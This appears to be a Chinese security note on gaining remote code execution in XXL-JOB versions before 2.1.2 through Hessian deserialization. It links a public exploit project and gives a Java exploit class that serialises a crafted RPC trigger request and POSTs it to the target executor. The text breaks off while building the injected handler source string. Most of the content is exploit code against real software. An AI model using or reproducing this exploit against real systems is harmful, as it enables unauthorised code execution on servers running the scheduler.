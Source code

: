 ## 1、XxlJob<2.1.2，需要利用 Hessian 触发。

参考这个项目即可 RCE  
[https://github.com/OneSourceCat/XxlJob-Hessian-RCE](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)

```plain
package com.example;

import com.xxl.job.core.biz.model.TriggerParam;
import com.xxl.rpc.remoting.net.params.XxlRpcRequest;

import com.xxl.rpc.serialize.impl.HessianSerializer;
import org.asynchttpclient.AsyncCompletionHandler;
import org.asynchttpclient.AsyncHttpClient;
import org.asynchttpclient.DefaultAsyncHttpClient;
import org.asynchttpclient.Response;

import java.io.IOException;
import java.util.Date;

public class App {

    private static void sendData(String url, byte[] bytes) {
        AsyncHttpClient c = new DefaultAsyncHttpClient();

        try{
            c.preparePost(url)
            .setBody(bytes)
            .execute(new AsyncCompletionHandler<Response>() {
                @Override
                public Response onCompleted(Response response) throws Exception {
                    System.out.println("Server Return Data: ");
                    System.out.println(response.getResponseBody());
                    return response;
                }

                @Override
                public void onThrowable(Throwable t) {
                    System.out.println("HTTP出现异常");
                    t.printStackTrace();
                    super.onThrowable(t);
                }
            }).toCompletableFuture().join();

            c.close();
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            try {
                c.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }


    }

    public static void main( String[] args ) throws Exception {

        String code = "package com.xxl.job.service.handler;\n" +
                "\n" +
                "import com.xxl.job.core.log.XxlJobLogger;\n" +
```